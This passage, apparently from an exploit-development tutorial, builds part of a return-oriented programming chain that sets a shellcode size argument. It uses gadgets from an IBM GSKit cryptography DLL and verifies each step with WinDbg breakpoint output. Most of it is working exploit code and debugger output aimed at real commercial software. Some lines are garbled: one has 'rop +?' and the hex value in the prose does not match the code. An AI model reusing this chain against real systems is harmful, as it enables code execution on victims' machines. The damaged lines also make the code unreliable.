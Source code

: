 #### shellcode size: `nSize`

the ROP skeleton is almost complete. we'll need to overwrite the dummy shellcode size with the real one. the shellcode size doesn't need to be precise, and since most generated shellcodes are less than 500 bytes, we can use an arbitrary value of -524 (`0xffffdf4`) and then negate it to make it positive.

```python
# Patching nSize
rop += pack("<L", (dllBase + 0xbc79)) # inc eax ; ret
rop += pack("<L", (dllBase + 0xbc79)) # inc eax ; ret
rop += pack("<L", (dllBase + 0xbc79)) # inc eax ; ret
rop += pack("<L", (dllBase + 0xbc79)) # inc eax ; ret
rop += pack("<L", (dllBase + 0x408dd)) # push eax ; pop esi ; ret
rop += pack("<L", (dllBase + 0x48d8c)) # pop eax ; ret
rop +? pack("<L", (0xfffffdf4)) # -524
rop += pack("<L", (dllBase + 0x1d8c2)) # neg eax ; ret
rop += pack("<L", (dllBase + 0x8876d)) # mov ecx, eax ; mov eax, esi ; pop esi ; retn 0x0010
rop += pack("<L", (0x42424242)) # junk into esi
rop += pack("<L", (dllBase + 0x1fd8)) # mov [eax], ecx ; ret
rop += pack("<L", (0x42424242)) # junk for ret 0x10
rop += pack("<L", (0x42424242)) # junk for ret 0x10
rop += pack("<L", (0x42424242)) # junk for ret 0x10
rop += pack("<L", (0x42424242)) # junk for ret 0x10
```

here, we're increasing the `EAX` (which points to `lpBuffer`) by four to align it with the `nSize` argument.

we'll need to save the updated `EAX` pointer by copying it to `ESI`. since there no simple way to obtain the shellcode size in `ECX` with our available gadgets, we'll have to use `EAX` for the arithmetic and copy the result back to `ECX`.

for the final copy operation, we'll need to copy the content of `EAX` into `ECX` and restore `EAX` from `ESI`. recall a gadget from the previous section, that contained a return instruction with an offset of `0x10`. this will need to be accounted for in the ROP chain (`0x10` junk bytes).

```shell
0:079> bp libeay32IBM019+0x1fd8
*** ERROR: Symbol file could not be found. Defaulted to export symbols for C:\Program
Files\ibm\gsk8\lib\N\icc\osslib\libeay32IBM019.dll -
0:079> g
Breakpoint 0 hit
eax=1223e2fc ebx=073db868 ecx=1223e41c edx=77251670 esi=42424242 edi=00669360
eip=044e1fd8 esp=1223e364 ebp=41414141 iopl=0
cs=001b ss=0023 ds=0023 es=0023 fs=003b gs=0000
nv up ei pl nz na pe cy
efl=00000207
libeay32IBM019!N98E_CRYPTO_get_mem_ex_functions+0x48:
044e1fd8 8908 mov dword ptr [eax],ecx ds:0023:1223e2fc=41414141
0:085> g
Breakpoint 0 hit
eax=1223e300 ebx=073db868 ecx=0000020c edx=77251670 esi=42424242 edi=00669360
eip=044e1fd8 esp=1223e3a0 ebp=41414141 iopl=0
cs=001b ss=0023 ds=0023 es=0023 fs=003b gs=0000
nv up ei pl nz ac pe cy
efl=00000217
libeay32IBM019!N98E_CRYPTO_get_mem_ex_functions+0x48:
044e1fd8 8908 mov dword ptr [eax],ecx ds:0023:1223e300=42424242
0:085> p
eax=1223e300 ebx=073db868 ecx=0000020c edx=77251670 esi=42424242 edi=00669360
nv up ei pl nz ac pe cy
efl=00000217
eip=044e1fda esp=1223e3a0 ebp=41414141 iopl=0
cs=001b ss=0023 ds=0023 es=0023 fs=003b gs=0000
libeay32IBM019!N98E_CRYPTO_get_mem_ex_functions+0x4a:
```